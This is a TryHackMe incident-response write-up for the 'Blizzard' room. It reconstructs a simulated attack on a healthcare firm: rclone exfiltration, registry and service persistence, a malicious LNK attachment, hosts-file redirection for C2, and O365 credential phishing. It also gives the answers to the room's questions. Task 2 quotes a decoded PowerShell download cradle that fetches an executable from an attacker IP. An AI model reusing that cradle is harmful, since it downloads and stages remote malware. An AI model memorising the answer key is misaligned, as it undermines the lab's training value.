# Blizzard

| Field | Details |
|-------|---------|
| **Platform** | TryHackMe |
| **Path** | Advanced Endpoint Investigations |
| **Module** | Windows Endpoint Investigation |
| **Room** | [Blizzard](https://tryhackme.com/room/blizzard) |
| **Difficulty** | Medium |
| **Category** | Digital Forensics / IR |
| **Author** | OPT4RUN |

---

## Overview

Blizzard is a multi-machine, end-to-end incident response room simulating a targeted attack by **Midnight Blizzard** — a threat group known for targeting the healthcare sector. The scenario follows **Health Sphere Solutions**, a healthcare provider that detected a high-bandwidth outbound connection from one of its database servers.

The investigation spans three machines across the full kill chain — working **backwards** from the database server compromise through lateral movement to the initial access vector on the original victim's workstation. Each task represents a different phase of the attack:

- **Task 1 — Impact:** Database server forensics (exfiltration, persistence)
- **Task 2 — Lateral Movement:** IT workstation forensics (phishing delivery, C2, credential theft)
- **Task 3 — Initial Access:** Source workstation forensics (credential phishing root cause)

> 💡 This room is best approached as a structured IR investigation — follow the playbook from alert triage → pivot → root cause analysis.

---

## Task 1 — Introduction: Analysing the Impact

### Scenario

A SIEM alert fired on database server **HS-SQL-01**:

| Alert Timestamp | Alert Name | Description | Host |
|----------------|------------|-------------|------|
| 03/24/2024 19:55:29 | POTENTIAL_DATA_EXFIL_DETECTED | High bandwidth outbound connection detected | HS-SQL-01 |

Since security controls are still being established, only network-level events are being audited from servers. Manual forensic investigation is required across both servers and workstations to reconstruct the full incident.

### Investigation

The investigation focused on:
- Unusual login attempts to the database server
- Suspicious binaries executed on the server
- Persistence mechanisms deployed

#### Lateral Login to the DB Server

Event log analysis revealed an internal machine was used to authenticate to `HS-SQL-01` — not a direct external access, confirming the attacker had already pivoted inside the network.



#### Data Exfiltration Binary

The attacker used **rclone** — a legitimate cloud storage sync tool — as a Living-off-the-Land (LotL) binary to exfiltrate data.

> 🔴 Rclone is a popular attacker favourite for data exfiltration because it blends with legitimate traffic. Defenders should flag `rclone.exe` in unexpected directories, especially under user profile paths.



#### Exfiltration Email Account

Configuration artifacts for rclone revealed the destination email account used to receive the exfiltrated data.



#### Registry Persistence

The attacker deployed a persistent implant via the registry — a classic `Run` key or equivalent autorun mechanism.



#### Alternative Backdoor (Service-Based)

A second persistence mechanism was discovered — a malicious Windows service. The following PowerShell one-liner was used to enumerate stopped services with automatic start type to surface the implanted service:

```powershell
$services = Get-Service | Where-Object { $_.Status -eq "Stopped" -and $_.StartType -eq "Automatic" }
foreach ($service in $services) {
    $serviceName = $service.Name
    $servicePath = (Get-WmiObject Win32_Service | Where-Object { $_.Name -eq $serviceName }).PathName
    Write-Host "Service Name: $serviceName"
    Write-Host "Executable Path: $servicePath"
}
```

> 💡 Enumerating stopped-but-automatic services is a quick way to surface implanted services that haven't triggered yet — attackers often configure them this way to avoid immediate detection.



### Questions & Answers

**Q: When did the attacker access this machine from another internal machine? (format: MM/DD/YYYY HH:MM:SS)**
```
03/24/2024 19:38:48
```

**Q: What is the full file path of the binary used by the attacker to exfiltrate data?**
```
C:\Users\dbadmin\.rclone\rclone-v1.66.0-windows-amd64\rclone.exe
```

**Q: What email is used by the attacker to exfiltrate sensitive data?**
```
annajones291@hotmail.com
```

**Q: Where did the attacker store a persistent implant in the registry? Provide the registry value name.**
```
SecureUpdate
```

**Q: Aside from the registry implant, another persistent implant is stored within the machine. When did the attacker implant the alternative backdoor? (format: MM/DD/YYYY HH:MM:SS)**
```
03/24/2024 20:04:05
```

---

## Task 2 — Lateral Movement: Backtracking the Pivot Point

### Scenario

The investigation pivoted to an IT employee's workstation identified as the origin of the suspicious login to `HS-SQL-01`. The goal is to reconstruct the attack chain on this intermediate machine.

### Investigation

The investigation focused on:
- Social engineering / email attack vectors
- Browser activity and malicious file downloads
- Suspicious binary execution
- Persistence mechanisms
- Network connections / C2 activity

#### Malicious Email Delivery

Analysis of the mail client revealed a phishing email delivered to the IT employee, which served as the initial delivery vector on this workstation.



#### Payload Execution

The attached file was extracted and analysed. It contained a `.lnk` file with an encoded PowerShell command that, when decoded, revealed a download cradle:

```powershell
iwr -useb http://128.199.247.173/configure.exe -outfile $env:app
```

This pulled `configure.exe` from an attacker-controlled IP and staged it locally.

> 🔴 LNK files with encoded PowerShell commands are a common phishing delivery mechanism — they abuse Windows shortcut functionality to execute arbitrary code without any visible script file.



#### Persistent Implant Creation

Following payload execution, the attacker established persistence on the workstation.



#### C2 Domain Resolution (Hosts File Manipulation)

The attacker modified the Windows `hosts` file (`C:\Windows\System32\drivers\etc\hosts`) to map a custom domain to an attacker-controlled IP — a technique used to ensure C2 connectivity even if DNS is blocked or monitored.

> 🔴 Hosts file modification is a classic defence evasion technique. Any entries pointing to external IPs for internal-looking or typosquatted domains should be treated as IOCs.



#### Credential File — DB Server Access

The attacker had a file on this workstation containing credentials for the database server — explaining how they were able to authenticate to `HS-SQL-01` without brute forcing.



### Questions & Answers

**Q: When did the attacker send the malicious email? (format: MM/DD/YYYY HH:MM:SS)**
```
03/24/2024 19:06:27
```

**Q: When did the victim open the malicious payload? (format: MM/DD/YYYY HH:MM:SS)**
```
03/24/2024 19:07:46
```

**Q: When was the malicious persistent implant created? (format: MM/DD/YYYY HH:MM:SS)**
```
03/24/2024 19:16:23
```

**Q: What is the domain accessed by the malicious implant? (format: defanged)**
```
advancedsolutions[.]net
```

**Q: What file did the attacker leverage to gain access to the database server? Provide the password found in the file.**
```
db@dm1nS3cur3Pass!
```

---

## Task 3 — Initial Access: Discovering the Root Cause

### Scenario

The investigation pivoted again — this time to the workstation of the user whose account sent the internal phishing email in Task 2. The goal is to determine how the attacker compromised this user's Office 365 account to initiate the phishing chain.

### Investigation

The investigation focused on:
- Unusual emails or chats indicating social engineering
- Browser activity and visited URLs
- How the attacker obtained O365 credentials

#### Phishing Message Received

Analysis of the victim's mail client or Teams/chat artifacts revealed an inbound phishing message delivered by the attacker, impersonating a trusted identity.



#### Phishing Website

The malicious link directed the victim to a credential-harvesting page designed to mimic the Microsoft sign-in portal.

> 🔴 The attacker used a lookalike domain (`sourcesecured[.]com`) mimicking a Microsoft login page — a classic adversary-in-the-middle (AiTM) or credential phishing setup. The page title deliberately matches legitimate Microsoft login pages to avoid suspicion.



#### First Access to Phishing URL

Browser history artifacts confirmed when the victim first visited the malicious link.



### Questions & Answers

**Q: When did the victim receive the malicious phishing message? (format: MM/DD/YYYY HH:MM:SS)**
```
03/24/2024 18:36:34
```

**Q: What is the display name of the attacker?**
```
Microsoft Identity Provider
```

**Q: What is the URL of the malicious phishing link? (format: defanged)**
```
hxxps[://]login[.]sourcesecured[.]com/support/id/XkSkj321
```

**Q: What is the title of the phishing website?**
```
Sign in to your account
```

**Q: When did the victim first access the phishing website? (format: MM/DD/YYYY HH:MM:SS in UTC)**
```
03/24/2024 18:38:29
```

---

## Key Takeaways

- **Full kill chain reconstruction:** This room walks the complete attack chain in reverse — from impact (exfiltration) → lateral movement (credential pivot) → initial access (O365 phishing). This mirrors real IR workflows where analysts start from an alert and work backwards.
- **LotL exfiltration with rclone:** Attackers increasingly use legitimate tools like rclone to avoid triggering AV/EDR. Detections should be based on behaviour (unexpected cloud sync from a DB server) rather than signature alone.
- **LNK-based payload delivery:** `.lnk` files with encoded PowerShell commands are a staple initial access technique — inspect attachment types and shortcut targets in phishing investigations.
- **Hosts file manipulation for C2:** Modifying `C:\Windows\System32\drivers\etc\hosts` is a reliable defence evasion trick. Baseline monitoring of this file is a low-effort, high-value detection.
- **Dual persistence:** The attacker deployed both a registry implant and a malicious Windows service — always hunt for multiple persistence mechanisms, not just the first one found.
- **Credential files as a pivot enabler:** Stored plaintext credentials on a workstation were the bridge to the database server — highlights the risk of credential sprawl and the value of auditing sensitive files on endpoints.
- **AiTM/credential phishing against O365:** The root cause was a convincing lookalike login page used to harvest O365 credentials — MFA bypass techniques and AiTM phishing kits are increasingly used against cloud-authenticated services.

---

*Write-up by [OPT4RUN](https://tryhackme.com/p/OPT4RUN)*